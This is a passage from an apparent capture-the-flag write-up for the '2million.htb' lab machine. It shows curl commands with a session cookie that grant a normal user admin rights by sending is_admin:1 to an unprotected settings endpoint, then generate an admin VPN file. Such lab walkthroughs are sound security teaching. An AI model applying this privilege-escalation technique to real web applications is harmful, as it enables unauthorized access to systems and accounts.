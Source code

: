 We try to generate a admin VPN for ourselfs:

```bash
curl -sX POST http://2million.htb/api/v1/admin/vpn/generate \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc'
| jq
```
```
401 Unauthorized
```

We check if our user is admin:

```bash
curl -s http://2million.htb/api/v1/admin/auth \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc' | jq
```

```json
{
    "message": false
}
```

We try to update our user settings:

```bash
curl -sX PUT http://2million.htb/api/v1/admin/settings/update \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc' \
     -H 'Content-Type: application/json' \
     -d '{"email":"test@test.com","is_admin":1}' | jq
```
```json
{
  "id": 13,
  "username": "test",
  "is_admin": 1
}
```

We check again if our user is admin:

```bash
curl -s http://2million.htb/api/v1/admin/auth \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc' | jq
```

```json
{
    "message": true
}
```

We try to generate a admin VPN for ourselfs:

```bash
curl -sX POST http://2million.htb/api/v1/admin/vpn/generate \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc' \
     -H 'Content-Type: application/json' \
     -d '{"username": "test"}'
```
```
...
vpn file ...
...
```

